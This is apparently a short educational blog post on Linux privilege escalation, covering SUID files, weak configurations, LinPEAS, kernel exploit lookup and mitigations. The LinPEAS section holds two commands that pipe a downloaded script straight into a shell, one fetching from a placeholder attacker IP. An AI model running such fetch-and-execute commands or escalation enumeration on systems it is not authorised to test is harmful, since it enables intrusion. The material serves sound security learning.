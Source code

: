 ```yaml
---
title: "Linux Privilege Escalation"
date: 2023-10-29 12:00:00 -0000
categories: [Privilege Escalation]
tags: [privilege escalation, linux]
---
```


## Introduction

Privilege escalation is a critical aspect of cybersecurity. It involves exploiting a vulnerability in an operating system or application to gain elevated access to resources that are normally protected from an application or user.

## Types of Privilege Escalation

### Vertical Privilege Escalation
Vertical privilege escalation occurs when a user gains higher privileges than they are authorized for. For example, a normal user gaining root access.

### Horizontal Privilege Escalation
Horizontal privilege escalation occurs when a user gains access to resources or functions of another user with similar privileges.

## Common Techniques

### SUID/GUID Files
Files with the SUID or GUID bit set can be exploited to execute with the privileges of the file owner or group.

### Exploiting Weak Configurations
Misconfigurations, such as weak file permissions or improper service settings, can be exploited for privilege escalation.

## Linpeas

Linpeas is a script that automates the process of searching for privilege escalation vectors on linux systems. It scans the system for common misconfigurations, vulnerabilities, and weak permissions that can be exploited by an attacker to gain elevated privileges.

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
curl <my_ip>/linpeas.sh | bash
```

## Kernel Exploits

```bash
uname -a
```

Search for kernel exploits using [Exploit Database](https://www.exploit-db.com/) or [Searchsploit](https://www.exploit-db.com/searchsploit).

## Mitigation Strategies

- Regularly update and patch systems.
- Implement the principle of least privilege.
- Conduct regular security audits and vulnerability assessments.
- Use security tools to monitor and detect unusual activities.

## Conclusion

Understanding and mitigating privilege escalation vulnerabilities is essential for maintaining the security of Linux systems. By following best practices and staying informed about the latest threats, you can protect your systems from unauthorized access.



[GTFOBINS] (https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.



> **Tip**: Always look for every possible way to escalate privileges, as even seemingly minor misconfigurations can lead to significant security risks.         




